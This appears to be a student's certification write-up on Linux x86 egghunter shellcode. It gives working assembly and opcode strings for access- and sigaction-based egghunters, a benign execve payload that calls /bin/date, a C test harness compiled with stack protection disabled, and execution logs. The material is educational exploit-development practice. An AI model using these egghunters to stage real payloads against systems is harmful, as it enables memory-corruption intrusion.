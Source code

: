 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

# Egghunter

The first step is to study about egghunter. A very nice document with optimised examples is available: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf 

In this assignment, three examples will be implemented following the same way.

## Final payload

The final payload is an execve shellcode calling /bin/date program. The idea will be to put the final shellcode between many "a" in order to increase the search. It will look like that: *\x61\x61\x61...EGG...SHELLCODE...\x61\x61\x61*.

### Execve Date

Based on examples from the course, an execve shellcode calling date can be easily done:

```ASM
global _start

section .text

_start:
 xor eax, eax
 push eax

 push 0x65746164 ;date
 push 0x2f6e6962 ;bin/
 push 0x2f2f2f2f ;////

 mov ebx, esp

 push eax
 mov edx, esp

 push ebx
 mov ecx, esp

 mov al, 11
 int 0x80
```
### shellcode.c

```
$ echo $(python3 -c 'a=("\\x%0.2x" % 97);print(a*2500)')$(echo \\x90\\x50\\x90\\x50\\x90\\x50\\x90\\x50)$(bash ../get-shellcode.sh execve-date |cut -d\" -f 2)$(python3 -c 'a=("\\x%0.2x" % 97);print(a*2500)')
```

The test program will be base on *shellcode.c*:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "INSERT EGGHUTER";
main()
{
 unsigned char memory_space[] = "\x61\x61\x61...\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x50\x68\x64\x61\x74\x65\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80...\x61\x61\x61";
 printf("Shellcode Length:  %d\n", strlen(code));

 int (*ret)() = (int(*)())code;
 ret();
}
```
## access(2)

The shellcode is converted for nasm:
```ASM
global _start

section .text

_start:
 mov ebx, 0x50905090 ;the egg
 xor ecx, ecx ;ecx to 0
 mul ecx ;eax and edx to 0

 page_alignment:
  or dx,0xfff
 next_page:
  inc edx

 pusha ;save registers
 lea ebx, [edx+0x4]
 mov al, 0x21 ;#define __NR_access 33
 int 0x80 ;syscall
 cmp al, 0xf2 ;EFAULT return value
 popa ;backup registers
 jz page_alignment
 cmp [edx],ebx ;check for egg 1/2
 jnz next_page
 cmp [edx+0x4],ebx ;check for egg 2/2
 jnz next_page
 jmp edx ;call final shellcode
```

It is extracted in order to be inserted into the *shellcode.c* file (as the file contents many a, it will not be displayed here).
```
$ bash ../get-shellcode.sh access2
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2"
```

After compilation, our final shellcode is immediately executed:

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ date && ./shellcode 
lundi 24 février 2020, 15:02:23 (UTC+0100)
Shellcode Length:  39
Mon Feb 24 15:02:23 CET 2020
```

## access(2) revisited

The shellcode is converted for nasm:
```ASM
global _start

section .text

_start:
 xor edx,edx ;edx to 0
page_alignment:
 or dx,0xfff
next_page:
 inc edx
 lea ebx,[edx+0x4]
 push byte +0x21 ;#define __NR_access 33
 pop eax
 int 0x80 ;syscall
 cmp al,0xf2 ;EFAULT return value
 jz page_alignment
 mov eax,0x50905090 ;the egg
 mov edi,edx
 scasd ;check for egg 1/2
 jnz next_page
 scasd ;check for egg 2/2
 jnz next_page
 jmp edi ;call final shellcode
```

It is extracted in order to be inserted into the *shellcode.c* file (as the file contents many a, it will not be displayed here).
```
$ bash ../get-shellcode.sh access2revisited
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
```

After compilation, our final shellcode is immediately executed:

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ date && ./shellcode 
lundi 24 février 2020, 21:00:39 (UTC+0100)
Shellcode Length:  35
Mon Feb 24 21:00:39 CET 2020
```

## sigaction(2)

The shellcode is converted for nasm:
```ASM
global _start

section .text

_start:
 or cx,0xfff
 next_page:
  inc ecx
 push byte +0x43 ; #define __NR_sigaction 67
 pop eax
 int 0x80 ;syscall
 cmp al,0xf2 ;EFAULT return value
 jz _start
 mov eax,0x50905090 ;the egg
 mov edi,ecx
 scasd ;check for egg 1/2
 jnz next_page
 scasd ;check for egg 2/2
 jnz next_page
 jmp edi ;call final shellcode
```

It is extracted in order to be inserted into the *shellcode.c* file (as the file contents many a, it will not be displayed here.)
```
$ bash ../get-shellcode.sh sigaction
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7"
```

After compilation, our final shellcode is immediately executed:

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ date && ./shellcode 
lundi 24 février 2020, 21:04:42 (UTC+0100)
Shellcode Length:  30
Mon Feb 24 21:04:42 CET 2020
```

## Final check

In order to be sure that this is the egghunter which is executed, a simple //strace// can be used. A sample of the output of the last egghunter is put below:

```
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
```
